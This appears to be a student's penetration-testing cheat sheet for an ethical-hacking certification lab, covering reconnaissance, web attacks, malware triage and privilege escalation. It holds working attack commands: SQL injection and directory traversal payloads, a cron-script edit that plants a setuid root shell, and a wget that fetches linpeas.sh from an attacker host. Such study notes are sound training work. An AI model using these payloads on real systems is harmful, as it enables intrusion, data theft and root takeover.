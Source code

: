 # MISC Notes

- mac look `nmap -sn 10.10.55.0/24 --script=mac-lookup`
- banner check `nmap -p 143,993 --script banner 192.168.44.0/24`
- DC `nmap --script ldap-rootdse,smb-os-discovery -Pn 10.10.55.0/24`
- `ldapsearch -x -h <DC-IP> -s base namingContexts`
- base64 decoder command: `echo "base64_string" | base64 -d`   
- directory traversal payloads in URL parameters, for example:  
  - If there's a page parameter: `?page=../../../foldername/prod/`
  - If there's a file parameter: `?file=../../../foldername/prod/file.txt`
- SQL injection
  - checking that
      `sqlmap -u "http://<url>/login.php" --data="username=<user>&password=<pass>" --batch --dbs`
  - for getting a file
      `UNION SELECT LOAD_FILE('C:/wamp64/www/DVWA/SecureWeb/prod/file.txt')`
- Finding hidden files `gobuster dir -u http://training.cehorg.com -w /usr/share/wordlists/dirb/common.txt -x txt,php,html`

- Way to get a page `curl http://<url>?page_id=44`  
`curl "http://<url>?page_id=32' OR '1'='1"` #If page content changes, it's vulnerable to SQLi.  
- Dump: `wget -qO- "http://<url>?page_id=6" | grep -i "text  "`

- Malware find:
```ps
ps> dumpbin /headers malware.exe | findstr /i "text"

ps> diec "C:\Users\Admin\Documents\Ghostware.exe"
```
- Use steghide for steganography extraction and dumpbin for EXE/DLL analysis.
- SHA calculation `sha1sum extracted_image.jpg` `certutil -hashfile C:\Users\path\extracted_image.jpg SHA1`
- Traffic packets:
```wireshark
#SYN Flood (DDoS)
tcp.flags.syn == 1 && tcp.flags.ack == 0 && ip.dst == <ip>

#OS find
dhcp.option.hostname contains "Windows"
http.user_agent contains "Windows"
```
- RAT related ports
`nmap -p 4444,8080,3389,5900 10.10.55.0/24`  
  4444	Metasploit Meterpreter  
  8080	njRAT, DarkComet, QuasarRAT  
  3389	RDP (May be used as a RAT)  
  5900	VNC (Remote Desktop RATs)  
  2222	Poison Ivy  

- Linux: Check Cron Jobs (Persistence)
```bash
crontab -l
ls -la /etc/cron*
```

- Key Encryption of file:
```bash
7z e pixelpioneer.txt -p"password"

openssl enc -d -aes-256-cbc -in pixelpioneer.txt -out decrypted.txt -k password
cat decrypted.txt

gpg --decrypt --passphrase "password" pixelpioneer.txt
```
- Privalege
  linPEAS - https://github.com/peass-ng/PEASS-ng/releases  
  ```bash
  sudo -l
  sudo -u user2 /bin/bash

  /root/.ssh        #check this file access
  ssh root@<ip> -i filewithopensshtext
  /var/www/html/files>       #webserver's check

  #cronjob file edit if running via root
  echo '#!/bin/bash' > /usr/local/bin/backup.sh
  echo 'cp /bin/bash /tmp/rootbash && chmod +s /tmp/rootbash' >> /usr/local/bin/backup.sh
  chmod +x /usr/local/bin/backup.sh
  /tmp/rootbash -p
  ```
- File transfer between
  ```bash
  #in source working folder
  python3 -m http.server 8080

  #in destination machine folder
  wget http://<ATTACKER-IP>:8080/linpeas.sh
  ```
